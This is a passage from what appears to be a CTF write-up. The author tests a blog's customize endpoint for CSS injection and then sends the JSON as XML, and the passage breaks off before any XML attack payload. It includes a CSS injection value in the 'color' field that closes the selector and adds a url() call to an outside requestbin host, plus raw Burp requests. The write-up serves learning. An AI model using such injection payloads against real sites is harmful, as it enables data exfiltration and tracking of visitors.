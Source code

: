 However, in those cases, there was a "bot" on the server that visited your post and thus your CSS injection would have a shot at extracting some information from the page.

Using Burp Repeater, I was easily able to hand-edit the JSON to send in any **color** and **font-size** values I wanted.

Of course, I tried SQL Injection and Template injection but with no results.

I thought there "might" be a bot on the server visitng every post you made.  If so, we could find out by obtaining a temporary request.bin URL and injecting into the CSS a construct that would cause the bot's browser to make a GET to our URL:

```
{ "size": "300px",
"color" : "test;
}
* {background: url('http://requestbin.net/r/83nvw1q5')"}
```

Here, the **color** value has a closing brace that "finishes" the CSS selector.  It then adds a new selector with a url() construct.

It ends up looking like this in the CSS:

http://45.134.3.200:5000/css/clean-blog.css

```
* {
    font-size: 20px;
    color: test;
  }
* {background: url('http://requestbin.net/r/83nvw1q5')
    }
```

Indeed when I refresh MY own page, requestbin shows a "hit" from my own IP address.

However after creating server new posts, I did not get any more HITs.

So, that convinced me there was **not** a bot running behind the scenes.

What else to try?

I checked my CTF notes which has various lessons I've learned form past CTFs.

One item said that anywhere **application/json** was accepted, try to switch to XML and see what happens.

The JSON we're POSTing with the color and font-size could alternatively be encoded in XML so I hand-crafted in Burp Repeater this:

```
POST /customize HTTP/1.1
Host: 45.134.3.200:5000
Content-Length: 56
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: text/xml
Origin: http://45.134.3.200:5000
Referer: http://45.134.3.200:5000/customize
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoic2FtIn0.YBM4RA.uNSKnfomEGCilO3Sq8GZhlnR53I
Connection: close


<root>
 <size>10</size>
 <color>red</color>
</root>
```